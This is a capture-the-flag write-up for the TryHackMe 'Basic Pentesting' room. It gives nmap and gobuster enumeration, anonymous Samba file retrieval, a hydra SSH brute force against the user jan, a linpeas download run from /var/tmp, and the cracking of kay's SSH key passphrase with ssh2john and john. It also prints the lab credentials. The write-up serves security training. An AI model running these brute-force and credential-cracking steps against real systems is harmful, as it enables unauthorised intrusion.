




# Basic Pentesting Writeup

The room can be found at https://tryhackme.com/room/basicpentestingjt

The room is created by ashu

# Find the services exposed by the machine

## Nmap

Using nmap,

```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db45cbbe4a8b71f8e93142aefff845e4 (RSA)
|   256 09b9b91ce0bf0e1c6f7ffe8e5f201bce (ECDSA)
|_  256 a5682b225f984a62213da2e2c5a9f7c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
There seems to be 6 ports open

## Accessing the web pages

Accessing the webpage on port 80 shows a maintenance page.

Accessing on port 8080 shows the Apache Tomcat home page.

The other ports time out with the web browser.

# Hidden directory on web server

The question is asking for the name of the hidden directory on the web server

So I will use gobuster with the dirbuster wordlist for directories.

```
gobuster dir -u http://10.10.69.220:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html,png,jpg
```

After some time, gobuster reports a directory named `development`
```
/.html                (Status: 403) [Size: 292]
/index.html           (Status: 200) [Size: 158]
/development          (Status: 301) [Size: 318] [--> http://10.10.69.220/development/]
```
Accessing it with a browser shows 2 text files
```
dev.txt
j.txt
```

dev.txt
```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```
This text seems to show there are two people, K and J. There is also something that is version 2.5.12.


j.txt
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```
This text shows that J might have a weak password, however, I still do not know the username for J.

## Samba 

Since there are ports open for Samba, perhaps I can extract information as an anonymous user.

Using smbget,
```
smbget -R smb://10.10.69.220/anonymous
```

A file called `staff.txt` was downloaded.

staff.txt
```
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

Perhaps the usernames for J and K are Jan and Kay respectively.

## Hydra

Using hydra to bruteforce the ssh with `jan` as the username and the rockyou password list

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.69.220
```



A password has been found, `armando`.

# Logging in with SSH

Using `jan:armando` to sucessfully login to ssh, I now have access to the machine.

## Checking for misconfigurations

### Sudo -l
Using `sudo -l` to check if there are any binaries that can be run with sudo permissions,



Seems like `jan` does not have any sudo permissions.

### SUID

Using `find / -perm u+s 2>/dev/null` to search for any binaries with the SUID bit set. 

There were no results.

### Linpeas

I decided to use linpeas to quickly search for any misconfigurations.

I hosted a python local server on my kali machine with the linpeas script. I then used `wget` with `jan`.

However, `jan` was not able to write a file in the home folder using `wget`.


I decided to try and find writable directories with `find / -writable 2>/dev/null`. I found that the `/var/tmp/` directory is writable. 

Running linpeas, I noticed that jan is able to read kay's private rsa key file.



### Cracking the RSA Key

Extracting the RSA kay and using `ssh2john` to create a file crackable by john the ripper and using `john` to crack the hash.

The password found is `beeswax`.



### SSH to Kay

Using the rsa key and passphrase to ssh into the machine, I now have access with Kay's account.

Kay has a file `pass.bak` in the home folder.

Using `cat` on the file reveals the final password used for the task.

`heresareallystrongpasswordthatfollowsthepasswordpolicy$$`

